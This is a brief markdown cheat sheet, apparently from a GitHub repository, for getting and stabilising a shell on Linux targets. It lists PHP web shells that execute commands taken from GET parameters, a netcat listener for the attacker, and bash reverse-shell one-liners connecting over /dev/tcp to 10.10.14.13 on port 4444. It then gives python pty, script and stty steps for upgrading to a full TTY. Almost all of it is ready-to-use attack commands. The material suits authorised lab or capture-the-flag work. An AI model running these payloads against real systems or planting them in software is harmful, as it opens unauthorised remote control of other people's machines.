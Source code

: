 # Linux  PHP > Rev Shell > Shell Upgrade Commands

##🐈‍⬛ PHP
```
<?php system($_GET['cmd']);?>

<?php
if (isset($_GET['command'])) {
    exec($_GET['command']);
}
?>
```

## ⭐ Attacker
```
nc -lvnp 4444
```
##🌙 Victim
```

/bin/bash -i 5<> /dev/tcp/10.10.14.13/4444 0<&5 1>&5 2>&5
bash -i >& /dev/tcp/10.10.14.13/4444 0>&1

```

## 🎃 Python Shell Upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 🎃 TTY Shell Upgrade

```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```

## 🎃 Shell To Bash Upgrade
```
SHELL=/bin/bash script -q /dev/null
```
